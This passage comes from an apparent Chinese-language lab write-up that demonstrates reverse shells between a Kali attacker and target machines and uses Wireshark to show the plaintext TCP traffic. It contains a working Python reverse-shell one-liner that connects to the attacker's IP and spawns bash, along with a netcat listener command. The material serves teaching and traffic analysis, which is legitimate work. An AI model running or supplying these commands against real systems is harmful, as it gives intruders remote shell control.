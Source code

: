 ![image-20191217212221956](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217212221956.png)

执行ls命令查看靶机B当前目录文件

![image-20191217212347985](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217212347985.png)

shell成功返回内容

在执行命令的同时打开流量监测工具wireshark查看流量情况

![image-20191217212756841](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217212756841.png)

![image-20191217224730605](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217224730605.png)

可以看到整个过程都在同一个TCP连接中并且传输内容以明文方式传输

## Reverse Shell By Script of python

攻击机Kali内执行nc -lvp 2333 监听2333端口等待建立socket连接

![image-20191217223931495](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217223931495.png)

靶机B Centos7内执行简单的socket脚本与攻击机建立套接字连接

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20191217224057537](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217224057537.png)

成功建立连接后我们打开wireshark监听流量并执行ls命令查看流量情况

![image-20191217224224070](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217224224070.png)

![image-20191217224238012](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217224238012.png)

![image-20191217224259448](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217224259448.png)

可以看到整个过程与上面bash反弹shell一样同样是TCP建立的socket套接字连接内容同样为明文传输。当然实现方式有很多还可以自行进行socket套接字变成查看或者将本文末尾的脚本伪http部分以及code decode去掉 查看。追踪TCP流可以看到整个过程的流量内容都是以明文进行传输的。

## Reverse Shell By Encryption Script of python

攻击机 Kali运行server监听等待建立连接  演示端口为1234

![image-20191217213736917](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217213736917.png)

靶机A Windows10 运行client 与攻击机在1234端口建立socket连接

![image-20191217214513156](C:\Users\32168\AppData\Roaming\Typora\typora-user-images\image-20191217214513156.png)
